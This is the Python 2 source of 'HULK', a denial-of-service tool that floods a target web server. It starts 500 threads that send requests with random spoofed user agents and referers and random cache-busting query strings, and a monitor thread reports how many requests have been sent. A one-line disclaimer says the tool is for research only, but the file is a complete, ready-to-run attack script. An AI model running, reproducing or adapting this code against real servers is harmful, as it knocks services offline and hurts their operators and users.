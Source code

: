 # ----------------------------------------------------------------------------------------------
# HULK - HTTP Unbearable Hasan
#
# this tool is a dos tool that is meant to put heavy load on HTTP servers in order to bring them
# to their knees by exhausting the resource pool, its is meant for research purposes only
# and any malicious usage of this tool is prohibited.
#
# author :  Tool By Hasan , version 1.0
# ----------------------------------------------------------------------------------------------
import urllib2
import sys
import threading
import random
import re
# import json
import datetime

#global params
url=''
host=''
headers_useragents=[]
headers_referers=[]
request_counter=0
flag=0
safe=0

def inc_counter():
	global request_counter
	request_counter+=1

def set_flag(val):
	global flag
	flag=val

def set_safe():
	global safe
	safe=1
	
# generates a user agent array
def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)

# generates a referer array
def referer_list():
	global headers_referers
	headers_referers.append('http://www.google.com/?q=')
	headers_referers.append('http://www.usatoday.com/search/results?q=')
	headers_referers.append('http://engadget.search.aol.com/search?q=')
	headers_referers.append('http://' + host + '/')
	return(headers_referers)
	
#builds random ascii string
def buildblock(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)

def usage():
	print '---------------------------------------------------'
	print 'USAGE: python hulk.py <url>'
	print 'you can add "safe" after url, to autoshut after dos'
	print '---------------------------------------------------'

# def log(request):
	# global request_counter
	# print datetime.datetime.now(), 'REQUEST COUNT :', request_counter, '>>>', request.get_full_url()
	# print request.get_method()
	# print json.dumps(request.headers, indent=4, sort_keys=True)
	# print dir(request)  # list lots of other stuff in Request
	
#http request
def httpcall(url):
	useragent_list()
	referer_list()
	code=0
	if url.count("?")>0:
		param_joiner="&"
	else:
		param_joiner="?"
	request = urllib2.Request(url + param_joiner + buildblock(random.randint(3,10)) + '=' + buildblock(random.randint(3,10)))
	request.add_header('User-Agent', random.choice(headers_useragents))
	request.add_header('Cache-Control', 'no-cache')
	request.add_header('Accept-Charset', 'ISO-8859-1,utf-8;q=0.7,*;q=0.7')
	request.add_header('Referer', random.choice(headers_referers) + buildblock(random.randint(5,10)))
	request.add_header('Keep-Alive', random.randint(110,120))
	request.add_header('Connection', 'keep-alive')
	request.add_header('Host',host)
	try:
			inc_counter()
			# log(request)
			urllib2.urlopen(request)
	except urllib2.HTTPError, e:
			print e.code
			set_flag(1)
			print 'Response Code 500'
			code=500
	except urllib2.URLError, e:
			print e.reason
			sys.exit()
	# else:
			# log(request)
			# inc_counter()
			# urllib2.urlopen(request)
	return(code)		

	
#http caller thread 
class HTTPThread(threading.Thread):
	def run(self):
		try:
			while flag<2:
				code=httpcall(url)
				if (code==500) & (safe==1):
					set_flag(2)
		except Exception, ex:
			pass

# monitors http threads and counts requests
class MonitorThread(threading.Thread):
	def run(self):
		previous=request_counter
		while flag==0:
			if (previous+100<request_counter) & (previous<>request_counter):
				print "%d Requests Sent @" % (request_counter), datetime.datetime.now()
				previous=request_counter
		if flag==2:
			print "\n-- HULK Attack Finished --", datetime.datetime.now()

#execute 
if len(sys.argv) < 2:
	usage()
	sys.exit()
else:
	if sys.argv[1]=="help":
		usage()
		sys.exit()
	else:
		print "-- HULK Attack Started --", datetime.datetime.now()
		if len(sys.argv)== 3:
			if sys.argv[2]=="safe":
				set_safe()
		url = sys.argv[1]
		if url.count("/")==2:
			url = url + "/"
		m = re.search('https?\://([^/]*)/?.*', url)
		host = m.group(1)
		# print httpcall(url)
		for i in range(500):
			t = HTTPThread()
			t.start()
		t = MonitorThread()
		t.start()

